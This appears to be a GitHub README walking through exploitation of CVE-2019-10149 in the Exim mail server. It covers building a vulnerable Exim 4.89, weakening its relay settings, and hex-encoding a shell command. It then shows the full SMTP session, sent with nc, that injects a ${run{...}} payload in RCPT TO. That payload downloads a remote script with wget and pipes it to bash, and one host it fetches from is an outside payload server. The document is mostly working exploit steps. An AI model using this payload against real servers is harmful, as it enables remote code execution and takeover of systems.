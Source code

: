 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
 * wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
 * cd exim-4.89/

Copy and modify required config files
 * sed -e 's,^EXIM_USER. * $,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

 * cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
 * sudo groupadd -g 31 exim 

 * sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
 * sudo apt-get update
 * sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
 * sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
 * sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains =  * /' /usr/exim/configure
 * sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
 * sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
 * sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
 * /bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
 * \x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
 * \t-c\ = -c
 * \t\= space
 * x20 = space
 * x7C = |
 * x2F = /
 * x3A = :
 * x2D = -
 * x3E = >
 * x26 = &
 * x22 = "
 * x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
 * nc 192.168.0.168 25
 
Once we are connected we say HELO.
 * helo localhost
 * (Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
 * mail from:<>
 * (Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
 * rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
 * (Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
 * DATA
 * Received: 1
 * Received: 2
 * Received: 3
 * Received: 4
 * Received: 5
 * Received: 6
 * Received: 7
 * Received: 8
 * Received: 9
 * Received: 10
 * Received: 11
 * Received: 12
 * Received: 13
 * Received: 14
 * Received: 15
 * Received: 16
 * Received: 17
 * Received: 18
 * Received: 19
 * Received: 20
 * Received: 21
 * Received: 22
 * Received: 23
 * Received: 24
 * Received: 25
 * Received: 26
 * Received: 27
 * Received: 28
 * Received: 29
 * Received: 30
 * Received: 31
 * 
 * .
